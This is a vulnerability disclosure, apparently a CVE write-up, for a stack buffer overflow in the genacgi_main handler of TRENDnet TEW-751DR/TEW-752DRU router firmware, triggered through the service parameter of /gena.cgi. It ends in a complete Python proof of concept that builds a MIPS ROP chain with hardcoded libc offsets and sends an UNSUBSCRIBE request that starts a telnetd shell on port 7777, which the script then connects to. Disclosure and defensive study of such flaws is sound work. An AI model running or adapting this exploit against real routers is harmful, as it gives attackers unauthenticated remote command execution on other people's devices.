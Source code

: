 Vendor of the products:TRENDnet

Reported by: 　　　WangJincheng && FeiXincheng from X1cT34m

Affected products: TRENDnet TEW751DR <= v1.03 , TRENDnet TEW-752DRU <= v1.03

Vendor Homepage:  https://www.trendnet.com/

Vendor Advisory:  https://www.trendnet.com/support/support-detail.asp?prod=165_TEW-751DR , 
                  https://www.trendnet.com/support/support-detail.asp?prod=170_TEW-752DRU

# summarize

The LAN-side Web-Configuration Interface has Stack-based Buffer Overflow vulnerability in the `TrendNet` Wi-Fi router firmware `TEW751DR` `TEW-752DRU` . In the `genacgi_main` function of the `cgibin` program, the `sprintf` method directly uses the service parameter from `/gena.cgi`. The attackers can construct a payload to carry out arbitrary code attacks.

# vulnerability description

There is a `stack overflow` vulnerability in the `genacgi_main` function.

![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/1.png)

It calls the `sub_40EC1C` function.

![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/2.png)

However, in the `sub_40EC1C` function, it calls the `sprintf` function from `a1` to `v23` without any security check, which causes the stack overflow.

![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/3.png)


# poc

	# python3
	from pwn import *
	from socket import *
	from os import *
	from time import *
	context(os = 'linux', arch = 'mips')
	
	libc_base = 0x2aaf8000
	
	s = socket(AF_INET, SOCK_STREAM)
	
	cmd = b'telnetd -p 7777;'
	payload = b'a'*462
	payload += p32(libc_base + 0x53200 - 1) # s0  system_addr - 1
	payload += p32(libc_base + 0x169C4) # s1  addiu $s2, $sp, 0x18 (=> jalr $s0)
	payload += b'a'*4 # s2
	payload += p32(libc_base + 0x32A98) # ra  addiu $s0, 1 (=> jalr $s1)
	payload += b'a'*0x18 # padding
	payload += cmd
	
	msg = b"UNSUBSCRIBE /gena.cgi?service=" + payload + b" HTTP/1.1\r\n"
	msg += b"Host: localhost:49152\r\n"
	msg += b"SID: 1\r\n\r\n"
	
	s.connect((gethostbyname("192.168.10.1"), 49152))
	s.send(msg)
		
	sleep(1)
	system("telnet 192.168.10.1 7777")


![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/shell.png?raw=true)
